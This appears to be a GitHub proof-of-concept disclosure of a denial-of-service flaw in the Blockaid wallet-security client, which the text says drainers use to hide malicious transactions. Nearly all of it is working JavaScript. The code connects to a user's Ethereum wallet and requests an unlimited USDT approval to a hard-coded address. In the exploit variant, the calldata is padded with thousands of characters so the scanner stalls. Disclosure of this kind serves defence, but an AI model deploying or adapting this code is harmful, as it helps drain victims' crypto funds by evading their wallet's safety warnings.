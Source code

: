 ## Proof of Concept: Denial of Service (DoS) on Blockaid Client

The following JavaScript code demonstrates a Proof of Concept (PoC) for a Denial of Service (DoS) vulnerability targeting the Blockaid client. The exploit relies on sending a maliciously crafted transaction with excessively large data payloads that can potentially freeze or disrupt the client.
This vulnerability is used by wallet drainers to get around Blockaid's reports and make users sign malicious transactions thinking they're safe.

### **PoC Code**

```javascript
var walletConnected = "";

async function connectWallets() {
    try {
        walletConnected = await window.ethereum.request({
            method: "eth_requestAccounts",
        });
        walletConnected = walletConnected[0];
        console.log("Wallet connected:", walletConnected);
    } catch (err) {
        console.error("Error connecting wallets:", err);
    }
}

async function changeWallet() {
    try {
        await window.ethereum.request({
            method: 'wallet_requestPermissions',
            params: [{ eth_accounts: {} }],
        }).then((permissions) => {
            const accountsPermission = permissions.find(
                (permission) => permission.parentCapability === 'eth_accounts'
            );
            walletConnected = accountsPermission.caveats[0].value[0];
        });
    } catch (err) {
        console.error("Error changing wallets:", err);
    }
}

window.addEventListener("DOMContentLoaded", () => {
    connectWallets();
});

async function testLegitTransaction(){
    await window.ethereum.request({
        method: 'eth_sendTransaction',
        params: [{
            "from": walletConnected,
            "data": "0x095ea7b3000000000000000000000000A7ab055f18ed0BF218Fa0BE1994c26Fc157Dc6f1ffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff",
            "gas": "0xf91c",
            "to": "0xdac17f958d2ee523a2206206994597c13d831ec7",
            "value": "0x0",
            "maxFeePerGas": "0x37e11d600",
            "maxPriorityFeePerGas": "0x3b9aca00"
        }],
    });
}

async function testExploitTransaction(){
    await window.ethereum.request({
        method: 'eth_sendTransaction',
        params: [{
            "from": walletConnected,
            "data": "0x095ea7b3000000000000000000000000A7ab055f18ed0BF218Fa0BE1994c26Fc157Dc6f1" + "f".repeat(5000),
            "gas": "0xf91c",
            "to": "0xdac17f958d2ee523a2206206994597c13d831ec7",
            "value": "0x0",
            "maxFeePerGas": "0x37e11d600",
            "maxPriorityFeePerGas": "0x3b9aca00"
        }],
    });
}
